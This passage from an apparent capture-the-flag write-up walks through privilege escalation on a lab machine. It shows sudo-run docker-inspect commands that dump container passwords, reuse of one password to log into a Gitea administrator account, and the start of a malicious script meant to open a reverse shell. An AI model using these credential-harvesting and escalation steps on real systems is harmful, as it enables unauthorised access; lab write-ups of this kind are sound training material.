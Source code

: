 ```shell
    [...]
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    [...]
```
> This returns more information, also the database name, database user, and its password.

Using `docker-inspect` to `mysql_db` container.
```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' mysql_db
```

```shell
[...]
 "Env": [
    "MYSQL_ROOT_PASSWORD=jI86kGUuj87guWr3RyF",
    "MYSQL_USER=gitea",
    "MYSQL_PASSWORD=yuiu1hoiu4i5ho1uh",
    "MYSQL_DATABASE=gitea",
[...]
```
> This returns the MYSQL ROOT password, the MYSQL user and its password, and the database.
> Notice that there are passwords that are the same `yuiu1hoiu4i5ho1uh` in both `gitea` and `mysql_db` containers.


Executing `full-checkup` returns an error.
```shell
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
Something went wrong
```

<br>

### Administrator

Using the password retrieved from `gitea` and `mysql_db` to `administrator` account in http://gitea.searcher.htb/.
```
http://gitea.searcher.htb/

administrator:yuiu1hoiu4i5ho1uh
administrator@gitea.searcher.htb
```

> I can now log in and check the repositories of the administrator account.
> There is are script in the scripts repo which are the same on the ones that are being executed in the docker earlier. 
> The `full-checkup` action in the `system-checkup.py` script, executes a `full-checkup.sh` script. 

Crafing a malicious `full-checkup.sh` that executes a reverse shell.
```shell
cd /var/tmp
touch full-checkup.sh
chmod +x full-checkup.sh
```
